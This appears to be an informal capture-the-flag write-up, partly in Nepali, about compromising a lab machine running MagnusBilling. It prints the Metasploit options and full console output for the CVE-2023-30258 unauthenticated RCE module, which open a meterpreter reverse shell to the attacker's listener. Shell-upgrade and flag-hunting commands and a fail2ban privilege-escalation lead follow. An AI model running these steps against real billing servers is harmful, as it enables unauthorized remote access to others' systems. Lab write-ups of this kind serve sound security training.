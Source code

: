 On the first look it looks like some billing site?

It redirects here on the `/billing` directory

Suru ma ta nmap hannai paryo

we used `msfconsole` to find exploit modules related to `magnus billing`  then we found some and after setting up the `rhosts, lport, lhost` we then ran the exploit number listed as 0

```jsx
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > options

Module options (exploit/linux/http/magnusbilling_unauth_rce_cve_2023_30258):

   Name       Current Setting  Required  Description
   ----       ---------------  --------  -----------
   Proxies                     no        A proxy chain of format type:host:port[,type:host:p
                                         ort][...]
   RHOSTS     10.10.163.249    yes       The target host(s), see https://docs.metasploit.com
                                         /docs/using-metasploit/basics/using-metasploit.html
   RPORT      80               yes       The target port (TCP)
   SSL        false            no        Negotiate SSL/TLS for outgoing connections
   SSLCert                     no        Path to a custom SSL certificate (default is random
                                         ly generated)
   TARGETURI  /mbilling        yes       The MagnusBilling endpoint URL
   URIPATH                     no        The URI to use for this exploit (default is random)
   VHOST                       no        HTTP server virtual host

   When CMDSTAGER::FLAVOR is one of auto,tftp,wget,curl,fetch,lwprequest,psh_invokewebrequest,ftp_http:

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SRVHOST  0.0.0.0          yes       The local host or network interface to listen on. Thi
                                       s must be an address on the local machine or 0.0.0.0
                                       to listen on all addresses.
   SRVPORT  8080             yes       The local port to listen on.

   When TARGET is 0:

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   WEBSHELL                   no        The name of the webshell with extension. Webshell na
                                        me will be randomly generated if left unset.

Payload options (php/meterpreter/reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  10.17.19.181     yes       The listen address (an interface may be specified)
   LPORT  6969             yes       The listen port

Exploit target:

   Id  Name
   --  ----
   0   PHP

msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit
[-] Handler failed to bind to 10.17.19.181:6969:-  -
[-] Handler failed to bind to 0.0.0.0:6969:-  -
[-] Exploit failed [bad-config]: Rex::BindFailed The address is already in use or unavailable: (0.0.0.0:6969).
[*] Exploit completed, but no session was created.
msf6 exploit(linux/http/magnusbilling_unauth_rce_cve_2023_30258) > exploit
[*] Started reverse TCP handler on 10.17.19.181:6969 
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 10.10.163.249:80 can be exploited.
[*] Performing command injection test issuing a sleep command of 4 seconds.
[*] Elapsed time: 4.69 seconds.
[+] The target is vulnerable. Successfully tested command injection.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 10.10.163.249
[+] Deleted RHqwNOooFJ.php
[*] Meterpreter session 1 opened (10.17.19.181:6969 -> 10.10.163.249:53540) at 2025-06-03 23:01:31 +0545

meterpreter > 
[*] 10.10.163.249 - Meterpreter session 1 closed.  Reason: Died

```

ani we got a reverse shell?

so i used `shell`

and then we got a pretty shell using python

`python -c "import pty; pty.spawn('/bin/bash/')"`

and then we find the `user.txt` file using find

`find / -name user.txt -type f 2>/dev/null`

and we try similarly for root.txt

we don’t have the reqd privilege so we first check what we can run using `sudo -l`

and we find the `fail2ban` client 

we then try to escalate privilege to root so we try the `fail2ban`
